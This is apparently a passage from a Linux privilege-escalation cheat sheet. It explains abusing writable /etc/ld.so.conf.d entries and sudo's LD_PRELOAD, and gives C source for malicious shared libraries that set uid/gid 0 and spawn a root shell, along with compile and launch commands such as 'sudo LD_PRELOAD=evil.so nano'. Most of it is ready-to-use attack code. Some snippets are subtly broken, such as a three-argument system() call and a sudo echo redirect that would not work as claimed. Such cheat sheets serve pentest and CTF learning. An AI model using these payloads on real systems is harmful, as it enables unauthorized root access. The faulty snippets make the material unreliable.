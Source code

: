 #### "/etc/ld.so.conf" Method

We need to check if we have write permission in **/etc/ld.so.conf(.d)**.

Some existing libraries do not contain enough information to allow the deduction of their type. Therefore, the /etc/ld.so.conf file format allows the specification of an expected type.

Let's add a directory where we have right access to **ld.so.conf**

```bash
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```

And then create a shared library that is going to get us root

```c
//gcc -shared -o thomas.so -fPIC thomas.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void thomas(){
    setuid(0);
    setgid(0);
    system("/bin/sh",NULL,NULL);
}
```

#### LD_PRELOAD

**LD_PRELOAD** is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.

If output of a sudo -l shows +LD_PRELOAD on an entries, you can take advantage of it.

create the following payload

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```

Compile it, put it an a writtable directory and launch it with nano

```bash
gcc -fPIC -shared -o evil.so evil.c -nostartfiles
sudo LD_PRELOAD=evil.so nano
```
